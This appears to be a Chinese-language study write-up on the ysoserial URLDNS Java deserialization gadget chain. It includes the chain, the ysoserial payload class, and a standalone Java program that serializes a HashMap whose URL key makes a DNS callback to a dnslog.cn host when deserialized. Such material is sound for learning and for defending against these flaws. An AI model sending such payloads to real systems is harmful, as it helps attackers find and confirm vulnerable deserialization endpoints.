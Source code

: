 ysoserial 给的利用链如下

```java
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

ysoserial Code：

```java
public class URLDNS implements ObjectPayload<Object> {
        public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();
                HashMap ht = new HashMap(); 
                URL u = new URL(null, url, handler);
                ht.put(u, url); 
                Reflections.setFieldValue(u, "hashCode", -1); 
                return ht;
        }
```

由于 ysoserial 除了核心利用代码之外涉及很多 ysoserial 工具本身的东西。因此把代码扣出来调试。

这里引用 @啦啦0咯咯 师傅文中代码

```java
package ysoserial;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        // 创建一个键的类型为 URL， 值的类型为 String 的 hashMap
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        // 上面泛型规定了键的类型，创建一个 URL 类
        URL url = new URL("http://3n5nmt.dnslog.cn");
        // hashCode是private修饰，因此反射调用 URL 类的成员变量
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        // 修改权限
        f.setAccessible(true);
        // 0xdeadbeef 随便设置
        f.set(url, 0xdeadbeef);
        // URLDNS 随便设置
        hashMap.put(url, "URLDNS");
        f.set(url, -1);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("out.bin"));
        ois.readObject();
    }
}
```
